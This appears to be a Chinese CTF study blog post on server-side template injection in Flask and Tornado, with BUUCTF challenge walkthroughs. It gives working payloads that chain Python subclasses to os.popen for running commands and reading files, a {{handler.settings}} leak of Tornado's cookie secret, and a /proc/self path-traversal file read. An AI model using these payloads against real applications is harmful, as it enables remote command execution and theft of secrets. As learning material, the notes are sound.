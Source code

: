 ```yaml
---
title: 服务器模板注入 (SSTI)
date: '2022/1/23 23:15:01'
categories:
  - - WEB安全
    - 注入
    - SSTI
abbrlink: 1e38f0b9
description: ssti注入的流程和相关例题
tags:
---
```


## 服务器模板注入 (SSTI)

### 基本注入流程

```
''.__class__		显示这个东西的类
''.__class__.base__		找到这个的基类
''.__class__.__base__.__subclasses__()		看基类的子类
```

> 敏感子类
popen、sys、os

```
因为''.__class__.__base__.__subclasses__()返回的是一个列表，
所以直接''.__class__.__base__.__subclasses__()[425]查看的就是popen这个
```
> **注意：这里的425要根据```''.__class__.__base__.__subclasses__()```实际返回的数组，观察Popen的位置来决定**

到了这里就可以使用某些子类来进行操作了，下面使用[177]这个子类```<class 'warnings.catch_warnings'>```进行操作

比如说查看目录
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')
```
进一步查看目录下的文件，这里查看的是test目录下的文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /test").read()')
```
然后读取需要的文件，这里是读取test目录下的flag.py文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /test/flag.py").read()')
```

### 绕过限制

参考：[https://www.cnblogs.com/zaqzzz/p/10263396.html](https://www.cnblogs.com/zaqzzz/p/10263396.html)

### 通过模板注入获取tornado中的cookie

利用handler.settings对象
因此构造{{handler.settings}}

知识点
> (1)需要的cookie_secret在Application对象settings属性中

> (2)```self.application.settings```有一个别名```RequestHandler.settings```
而因为handler指向的是处理当前这个页面的RequestHandler对象，并且RequestHandler.settings是指向self.application.settings，因此构造的handler.settings指向RequestHandler.application.settings


参考来自：[https://blog.csdn.net/q20010619/article/details/107553119](https://blog.csdn.net/q20010619/article/details/107553119)

***
***

## 题目

### SSTI
> 这是一道来源于BUUCTF的N1BOOK的题目，[第三章 web进阶]SSTI

```shell
7*7
```
观察回显发现是flask模板注入

```shell
''.__class__.__base__.__subclasses__()
```
看看有什么子类可以利用
```shell
''.__class__.base__.__subclasses__()}
```

发现[177]这个子类是```<class 'warnings.catch_warnings'>```

利用它查看目录
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')
```
进一步查看app目录下的文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /app").read()')
```
然后读取server.py文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /app/server.py").read()')
```

题目有多种解法
参考来自：
[https://blog.csdn.net/CyhDl666/article/details/115004845](https://blog.csdn.net/CyhDl666/article/details/115004845)
[https://blog.csdn.net/qq_51558360/article/details/114493766](https://blog.csdn.net/qq_51558360/article/details/114493766)

### afr_3
> 这是一道来源于BUUCTF的N1BOOK的题目，[第一章 web入门]afr_3

开头是文件包含，经过一系列操作，
**根据```../../../../../proc/self/cmdline```得出的信息可以知道，当前正在运行 ```pythonserver.py```**

**在这里时需要想到，应该利用python的flask进行模板ssti注入，从而读取flag**

根据/proc/的特性，可以读取正在运行的```pythonserver.py```的源码
```?name=../../../../../proc/self/cwd/server.py```
> 原理是使用proc指定self代表当前进程，然后cwd指向运行的文件```pythonserver.py```

得到的信息里面有```flag.py```，但是直接访问显示权限不够
访问另一个的文件```key.py```得到
 ```shell
#!/usr/bin/python 
key = 'Drmhze6EPcv0fN_81Bj-nA'
 ```

后面待续




参考来自：
[https://www.cnblogs.com/murkuo/p/14905749.html](https://www.cnblogs.com/murkuo/p/14905749.html)